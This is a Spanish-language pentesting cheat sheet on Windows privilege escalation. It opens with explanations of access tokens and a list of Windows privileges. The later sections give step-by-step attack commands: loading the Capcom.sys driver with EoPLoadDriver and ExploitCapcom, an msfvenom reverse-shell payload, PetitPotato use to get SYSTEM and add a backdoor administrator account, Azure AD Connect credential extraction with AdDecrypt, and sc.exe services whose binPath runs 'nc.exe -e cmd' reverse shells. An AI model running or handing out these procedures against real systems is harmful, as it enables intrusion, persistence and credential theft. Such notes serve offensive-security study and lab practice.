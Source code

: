 # Escalación de privilegios en Windows 

Tags: #AD #Windows #SeImpersonatePrivilege #SeAssignPrimaryTokenPrivilege

* [Escalacion-Privilegios-Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [Abusando de Tokens Windows - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

## Tokens de acceso 

Los tokens de acceso en Windows son estructuras de datos que almacenan la información de seguridad y de usuario asociada a un proceso o hilo. Estas estructuras son esenciales dentro del modelo de seguridad de Windows, ya que definen los derechos y privilegios asignados a un proceso o hilo específico en el sistema.

A continuación, se presentan detalles clave sobre los tokens de acceso en Windows:

```bash 
1. Tipos de Tokens: Hay dos tipos principales de tokens en Windows:
    
    - Token de usuario: Representa a un usuario que se ha autenticado con éxito. Está asociado con todos los procesos iniciados por ese usuario.
    - Token primario: Es el token asociado con un proceso cuando se inicia.
    - Token de impersonación: Permite a un hilo actuar con diferentes niveles de privilegio de su proceso contenedor. Es útil, por ejemplo, cuando un servicio necesita realizar tareas con privilegios diferentes.
        
    
2. Información en Tokens: Un token de acceso contiene información como:
    
    - Identificador de usuario (User SID): Identifica al usuario asociado con el token.
    - Grupos SID: Identifica a los grupos de los que el usuario es miembro.
    - Privilegios: Define acciones específicas que el usuario puede realizar, como apagar el sistema o cambiar la hora del sistema.
    - Tipo de token: Indica si el token es primario o de impersonación.
    - Nivel de impersonación: Si es un token de impersonation, este campo especifica el nivel (Anónimo, Identificación, Impersonación, Delegación).
    - Discretionary Access Control List (DACL): Especifica qué objetos puede acceder el portador del token y con qué permisos.
        
    
3. Impersonation: Esta es una característica clave en Windows que permite a un hilo tomar el token de otro usuario y "impersonarlo", es decir, actuar con los privilegios de ese usuario. Es útil en situaciones como servidores que necesitan acceder a recursos en nombre de un cliente.
    
4. Token Stealing: En el contexto de la seguridad, los tokens de acceso pueden ser objeto de abuso por parte de atacantes. Si un atacante logra comprometer un proceso o hilo con privilegios elevados, puede "robar" el token asociado y usarlo para impersonar a ese usuario o proceso de alto privilegio, facilitando la escalación de privilegios o el movimiento lateral.
    
5. Creación de Tokens: Los tokens de acceso se crean durante el proceso de autenticación. Cuando un usuario inicia sesión en una máquina Windows, el sistema genera un token de acceso que representa al usuario y a todos sus grupos y privilegios asociados.
    
6. Modificación de Tokens: A través de APIs específicas, es posible modificar tokens, aunque generalmente esto requiere privilegios elevados. Esta capacidad puede ser abusada por malware o atacantes para alterar los derechos y permisos de un token.
```

Los tokens de acceso desempeñan un papel fundamental en la infraestructura de seguridad de Windows. Brindan una notable flexibilidad para la gestión de identidades y accesos, aunque también pueden convertirse en un posible punto de ataque si no se manejan y protegen de forma adecuada. Por ello, es esencial que los administradores y expertos en seguridad entiendan su funcionamiento y las medidas necesarias para prevenir su uso indebido.

## Privilegios en Windows

* [Niveles de integridad - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels)

En los sistemas operativos Windows, los privilegios son permisos otorgados a las cuentas de usuario y servicios, los cuales determinan las acciones que pueden ejecutarse en el sistema. Estos privilegios regulan aspectos clave de la seguridad y la administración del sistema, permitiendo desde la modificación del reloj del sistema hasta la gestión de registros y configuraciones de seguridad. A continuación, te presento una lista de los privilegios disponibles en Windows, aunque es importante tener en cuenta que esta lista puede variar ligeramente según la versión del sistema operativo.

```bash 
1. SeAssignPrimaryTokenPrivilege: Asignar un token primario a un proceso.
2. SeAuditPrivilege: Generar eventos de auditoría de seguridad.
3. SeBackupPrivilege: Omitir comprobaciones de permisos para realizar operaciones de respaldo.
4. SeChangeNotifyPrivilege: Omitir la notificación de cambio de directorio.
5. SeCreateGlobalPrivilege: Crear objetos globales.
6. SeCreatePagefilePrivilege: Crear un archivo de paginación.
7. SeCreatePermanentPrivilege: Crear objetos permanentes.
8. SeCreateSymbolicLinkPrivilege: Crear enlaces simbólicos.
9. SeCreateTokenPrivilege: Crear un token de objeto.
10. SeDebugPrivilege: Depurar programas.
11. SeEnableDelegationPrivilege: Habilitar la delegación de seguridad.
12. SeImpersonatePrivilege: Impersonar a un cliente después de la autenticación.
13. SeIncreaseBasePriorityPrivilege: Aumentar la prioridad de proceso.
14. SeIncreaseQuotaPrivilege: Aumentar cuotas de proceso.
15. SeIncreaseWorkingSetPrivilege: Aumentar el conjunto de trabajo de un proceso.
16. SeLoadDriverPrivilege: Cargar y descargar controladores de dispositivos.
17. SeLockMemoryPrivilege: Bloquear páginas en memoria.
18. SeMachineAccountPrivilege: Agregar equipos al dominio.
19. SeManageVolumePrivilege: Realizar mantenimiento de volumen.
20. SeProfileSingleProcessPrivilege: Realizar monitoreo de rendimiento.
21. SeRelabelPrivilege: Modificar etiquetas de integridad de objetos.
22. SeRemoteShutdownPrivilege: Forzar el apagado desde un sistema remoto.
23. SeRestorePrivilege: Omitir comprobaciones de permisos para realizar operaciones de restauración.
24. SeSecurityPrivilege: Administrar auditoría y registro de seguridad.
25. SeShutdownPrivilege: Apagar el sistema.
26. SeSyncAgentPrivilege: Sincronizar datos de directorio.
27. SeSystemEnvironmentPrivilege: Modificar la configuración del entorno del firmware.
28. SeSystemProfilePrivilege: Realizar monitoreo de rendimiento del sistema.
29. SeSystemtimePrivilege: Cambiar la hora del sistema.
30. SeTakeOwnershipPrivilege: Tomar propiedad de archivos u otros objetos.
31. SeTcbPrivilege: Actuar como parte del sistema operativo.
32. SeTimeZonePrivilege: Cambiar la zona horaria.
33. SeTrustedCredManAccessPrivilege: Acceder a credenciales guardadas de manera segura.
34. SeUndockPrivilege: Desacoplar el sistema de la base.
35. SeUnsolicitedInputPrivilege: Leer la entrada no solicitada del terminal interactivo.
```  

Cada uno de estos privilegios otorga la capacidad de realizar acciones concretas en el sistema que pueden influir en su configuración, seguridad y funcionamiento general. Los administradores del sistema deben gestionar y asignar estos privilegios con cuidado para garantizar la seguridad y el correcto desempeño de los sistemas Windows.

## Privilegios Windows para escalar 

```bash 
❯ whoami /priv        # Muestra los privilegios del usuario actual 
```

```powershell 
1. 'SeLoadDriverPrivilege' = Permite 'cargar drivers firmados' que se ejecutan con permisos del 'kernel (ring 0)'. Si puedes cargar un 'driver malicioso' (uno que eleva privilegios), te puedes convertir en 'NT AUTHORITY\SYSTEM' o incluso ejecutar código arbitrario en el núcleo


Pasos:
❯ https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp    # Copiar el codigo en Visual studio creando un nuevo proyecto 'Aplicación de consola'. Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'EoPLoadDriver.exe' a la máquina Windows comprometida
❯ https://github.com/FuzzySecurity/Capcom-Rootkit/tree/master/Driver    # Descargar el archivo 'Capcom.sys' y transferirlo a la máquina Windows comprometida
❯ .\EoPLoadDriver.exe System\CurrentControlSet\MyService C:\Windows\Temp\Capcom.sys  # Cargar el driver y debe de mostrar 'NTSTATUS: 00000000, WinError: 0'
❯ https://github.com/tandasat/ExploitCapcom   # Descargar el proyecto completo en zip para abrirlo desde Visual Studio. Modificar la linea de 'LaunchShell' y colocar "C:\\ProgramData\\reverse.exe". Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'ExploitCapcom.exe' a la máquina Windows comprometida
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o reverse.exe  # Crear el archivo al cual llamará 'ExploitCapcom.exe' al momento de ejecutarse y transferirlo a la máquina Windows comprometida
❯ .\ExploitCapcom.exe        # Ejecutar el archivo en Windows y obtener la revershell en Kali 

Notas:
	1. Si al momento de compilar da un error, eliminar '#include "stdafx.h"' y volverlo a compilar
	2. La ruta donde compila los archivos la muestra en la consola 
	3. Para obtener la revershell se debe estar en escucha con 'Netcat'
```

```powershell
2. 'SetImpersonatePrivilege' = Abusando de 'SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege'. Si un usuario tiene los privilegios antes mencionados se puede aprovechar para obtener acceso a nivel de SYSTEM


Pasos:
❯ https://github.com/wh0amitz/PetitPotato/releases/tag/v1.0.0   # Descargar el archivo y transferirlo a la máquina Windows comprometida 
❯ PetitPotato.exe 3 cmd         # Crear una cmd con rl usuario 'NT Authority\System' 
	# EfsID = '3' es el numero de API a usar
❯ PetitPotato.exe 3 "whoami"    # Ejecutar un comando  
❯ PetitPotato.exe 3 "net user omar P4ssw0rd /add"               # Crear un user siendo 'NT Authority\System'
❯ PetitPotato.exe 3 "net localgroup Administrators omar /add"   # Agregar el usuario al grupo 'Administrators'
❯ PetitPotato.exe 3 "net user Omar"                             # Mirar el grupo de un usuario en especifico

Notas:
	1. Despues de crear un usuario para tener persistencia, podemos ingresar a con RDP si esta abierto el puerto '3389'
	2. También se pude utilizar 'RottenPotato o JuicyPotato'
```

## Grupos Windows para escalar 

```bash 
❯ net user <user>     # Mirar los grupos del usuario 
```

```powershell
1. 'Azure Admins' = Si puedes acceder a Azure AD Connect desde un usuario del grupo 'Azure Admins', puedes extraer credenciales privilegiadas y 'escalar a Domain Admin'.


Pasos: 
❯ https://github.com/VbScrub/AdSyncDecrypt/releases/tag/v1.0   # Descargar el archivo AdDecrypt.zip y extraer su contenido para obtener 'AdDecrypt.exe, mcrypt.dll' y transferir los archivos a la máquina Windows comprometida
❯ 'C:\Program Files\Microsoft Azure AD Sync\Bin'  # Ir a la siguiente ruta y ejecutar el 'AdDecrypt.exe'
❯ AdDecrypt.exe -FullSQL      # Ejecutar la herramienta para extraer credenciales del usuario Admin 

Notas: 
	1. El AdDecrypt.exe y mcrypt.dll se deben de encontrar en la misma carpeta
```

```powershell 
2. 'Server Operators' = Si pertenece a este grupo en un sistema Windows, se tiene ciertos privilegios elevados 'localmente' sobre los servidores y se puede 'iniciar, detener, configurar, crear, reiniciar realizar backups' sobre los servicios existentes.


Pasos:
❯ nc.exe     # Descargar y tranferir el archivo a la máquina Windows comprometida para hacer la Revershell
❯ services   # Mirar todos los servicios que se estan ejecutando 
❯ sc.exe create <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Crear un servicio 
❯ sc.exe config <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Modificar un servicio 
❯ sc.exe stop <service>         # Detener un servicio 
❯ sc.exe start <service>        # Iniciar un servicio 
```